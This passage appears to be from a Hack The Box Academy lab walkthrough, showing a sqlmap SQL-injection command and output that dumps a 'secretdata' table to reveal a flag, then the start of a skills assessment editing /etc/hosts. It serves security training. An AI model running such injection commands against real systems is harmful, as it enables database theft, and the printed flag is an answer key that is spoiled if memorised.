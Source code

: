 At last, students need to dump `secretdata`, to attain the flag `HTB{1251ef9b34342f62db6044190f5b83cd}`:

Code: shell

```shell
sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' -T secretdata --dump --threads=10
```

```shell
┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-0ptxut4w0g]─[~]
└──╼ [★]$ sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' -T secretdata --dump --threads=10
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: db
Table: secretdata
[1 entry]
+---------------------------------------+
| secretdata                            |
+---------------------------------------+
| HTB{1251ef9b34342f62db6044190f5b83cd} |
+---------------------------------------+
<SNIP>
```

Answer: `HTB{1251ef9b34342f62db6044190f5b83cd}`

# Skills Assessment

## Question 1

### "What is the flag value obtained from the Library web application?"

After spawning the target machine, students first need to add the in-scope subdomains of `Inlanefreight's` to `/etc/hosts`:

Code: shell

```shell
sudo sh -c 'echo "STMIP library.inlanefreight.local vault.inlanefreight.local webmin.inlanefreight.local pdf.inlanefreight.local" >> /etc/hosts'
```

```shell
┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-r0xvavhkst]─[~]
└──╼ [★]$ sudo sh -c 'echo "10.129.228.164 library.inlanefreight.local vault.inlanefreight.local webmin.inlanefreight.local pdf.inlanefreight.local" >> /etc/hosts'
```
